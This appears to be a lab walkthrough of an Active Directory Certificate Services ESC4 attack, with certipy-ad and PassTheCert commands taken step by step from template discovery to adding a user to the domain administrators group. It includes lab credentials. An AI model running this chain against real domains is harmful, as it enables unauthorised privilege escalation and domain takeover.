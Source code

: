 
1. check User Joint Groups
```powershell
whoami /all
```
![Pasted image 20250609231308](https://github.com/user-attachments/assets/30e609e6-5ace-4afc-b2ac-03f42ca6d6e0)

2. Determine if it’s truly vulnerable Using `certipy-ad`
**Installing**
```shell
sudo apt install certipy-ad
```
If error indicates a conflict between two packages: `certipy-ad` and `python3-certipy`.
Do the follwoing
```shell
sudo apt remove python3-certipy
sudo apt install certipy-ad
```
3. We can use `certipy-ad` to check for vulnerabilities and retrieve the template locally, especially since we have the user credentials.
```shell
certipy-ad find -u <user> -p <password> -dc-ip <Domain-IP> -stdout -vulnerable
```
**Example**
```shell
certipy-ad find -u Jodie.Summers -p "hHO_S9gff7ehXw" -dc-ip 192.168.171.30 -stdout -vulnerable
```
![Pasted image 20250609231800](https://github.com/user-attachments/assets/28e835fd-7bde-4204-920c-fa91d945eae6)


![[Pasted image 20250609231845.png]]We can clearly see the message indicating that ESC4 has dangerous permissions.

Now time to exploit and get the `administrator` hash since we have gotten the template name let request to receive a certificate.
```shell
certipy-ad req -username <user> -p <password> -template <template-name> -dc-ip <Domain ip> -ca <CA Name> -upn <user@domain> -dns <DNS Name> -debug
```
**Example**
```shell
certipy-ad req -username "Jodie.Summers" -p "hHO_S9gff7ehXw" -template NaraUser -dc-ip 192.168.171.30 -ca NARA-CA -upn 'Administrator@nara-security.com' -dns Nara.nara-security.com -debug
```
![Pasted image 20250609232054](https://github.com/user-attachments/assets/5baf93c0-f65f-4bb2-85f9-4408423a7a45)


**Get the admin hash**
Typically at this point I would use the `auth` command to get the NTLM hash for the administrator user:
```shell
certipy-ad auth -pfx <PATH_TO_PFX_CERT> -domain <domain> -username <user> -dc-ip <Domain-ip>
```
**Example**
```shell
certipy-ad auth -pfx administrator_nara.pfx -domain nara-security.com -username administrator -dc-ip 192.168.171.30
```

![Pasted image 20250609233956](https://github.com/user-attachments/assets/12163e32-e8fd-4fb2-9a8f-e4926999cabc)

Unfortunately it doesn't work
> If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert). You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.

To perform a PassTheCert attack, I’ll need the key and certificate in separate files, which `certipy` can handle:
```shell
certipy-ad cert -pfx <PATH_TO_PFX_CERT> -nocert -out <PEM_KEY>
certipy-ad cert -pfx <PATH_TO_PFX_CERT> -nokey -out <PEM_CERT>
```
**Example**
```shell
certipy-ad cert -pfx administrator_nara.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator_nara.pfx -nokey -out administrator.crt
```
Installed `PassTheCert`
**Download**
```shell
wget https://github.com/AlmondOffSec/PassTheCert/raw/refs/heads/main/Python/passthecert.py
```
It also offers an `ldap-shell` option that allows me to run a limited set of commands on the DC.
```shell
python passthecert.py -action ldap-shell -crt <Certificate.crt> -key <Certificate.key> -domain <domain> -dc-ip <domain-ip>
```
**Example**
```shell
python passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain nara-security.com -dc-ip 192.168.171.30
```
![Pasted image 20250610000300](https://github.com/user-attachments/assets/d30518f1-4c73-4b16-a0cd-10d1f4068b49)
```ldap
add_user_to_group <User> <Group>
```
**Example**
```ldap
add_user_to_group jodie.summers administrators
```
![Pasted image 20250610000340](https://github.com/user-attachments/assets/43c4c5dd-439b-43e5-b1f8-c0434f318424)

